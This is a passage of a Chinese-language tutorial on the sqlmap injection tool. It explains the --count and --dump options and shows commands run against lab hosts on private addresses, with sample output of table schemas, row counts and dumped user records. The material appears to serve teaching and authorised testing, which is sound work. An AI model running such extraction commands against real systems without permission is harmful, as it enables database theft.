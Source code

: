 ```
[6 columns]
+----------+----------+
| Column   | Type |
+----------+----------+
| date | datetime |
| browser  | text |
| cid  | int(11)  |
| hostname | text |
| ip   | text |
| referer  | text |
+----------+----------+

Database: testdb
Table: users
[3 columns]
+---------+---------------+
| Column  | Type  |
+---------+---------------+
| id  | int(11)   |
| name| varchar(500)  |
| surname | varchar(1000) |
+---------+---------------+
[...]
```

**获取表中数据个数**

参数：`–count`

有时候用户只想获取表中的数据个数而不是具体的内容，那么就可以使用这个参数。

列举一个`Microsoft SQL Server`例子：

```
$ python sqlmap.py -u "http://192.168.21.129/sqlmap/mssql/iis/get_int.asp?id=1" --count -D testdb
[...]
Database: testdb
+----------------+---------+
| Table  | Entries |
+----------------+---------+
| dbo.users  | 4   |
| dbo.users_blob | 2   |
+----------------+---------+
```

**获取整个表的数据**

参数：`–dump,-C,-T,-D,–start,–stop,–first,–last`

如果当前管理员有权限读取数据库其中的一个表的话，那么就能获取真个表的所有内容。

使用`-D,-T`参数指定想要获取哪个库的哪个表，不使用-D 参数时，默认使用当前库。

列举一个`Firebird`的例子：

```
$ python sqlmap.py -u "http://192.168.136.131/sqlmap/firebird/get_int.php?id=1" --dump -T users
[...]
Database: Firebird_masterdb
Table: USERS
[4 entries]
+----+--------+------------+
| ID | NAME   | SURNAME|
+----+--------+------------+
| 1  | luther | blisset|
| 2  | fluffy | bunny  |
| 3  | wu | ming   |
| 4  | NULL   | nameisnull |
```
